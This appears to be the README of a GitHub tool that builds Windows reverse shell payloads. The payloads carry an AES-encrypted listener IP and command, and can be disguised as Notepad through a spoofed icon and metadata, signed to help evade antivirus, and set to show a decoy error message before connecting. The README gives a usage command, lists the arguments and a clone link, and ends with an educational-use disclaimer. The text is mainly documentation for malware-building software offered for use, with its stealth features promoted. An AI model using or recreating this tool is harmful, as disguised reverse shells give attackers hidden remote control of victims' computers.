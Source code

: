 # 🛡️ AES Encrypted Payload Generator

This tool generates a Windows reverse shell payload with **AES-encrypted IP and command values**, compiles it with optional **Notepad disguise**, and supports automatic cleanup.
  
---
  
## ⚙️ Features

- 🔐 AES (ECB mode) encryption for sensitive data
- 🧩 Dynamic payload generation in C
- 🪟 Native Windows API usage (with manual `GetProcAddress` resolution)
- 🎭 Optional Notepad spoofing (icon + metadata)
- 🛠️ Easy cross-compilation via MinGW (Linux)
- ⏱️ Desynchronous connection (Around 30s)
  
---
  
## 🚀 Usage

### Basic Example
```bash
python3 payload_gen.py --ip 192.168.1.100 --port 4444 --notepad --sign
```
  
### Arguments
  
**--ip** : IP address of the reverse shell listener (required).  
**--port** : TCP port for the connection (default: 49557).  
**--cmd** : Command to execute (default: cmd.exe).  
**--notepad** : Mimic Notepad metadata and icon.  
**--keep** : Keep temporary files (.c, .rc, .res) after building.  
**--sign** : Uses sign_exe.py to sign the exe, improving AVs bypass.  
**--gui** : Display an error message on launch, waiting for user input before starting connection.
  
---
  
## Download
```bash
git clone https://github.com/WisePlace/Payload-Generator.git
```
  
---
  
## Disclaimer
  
**This project is provided strictly for educational and ethical security research purposes.  
Unauthorized use against third-party systems is illegal. You are solely responsible for how you use this code.**  
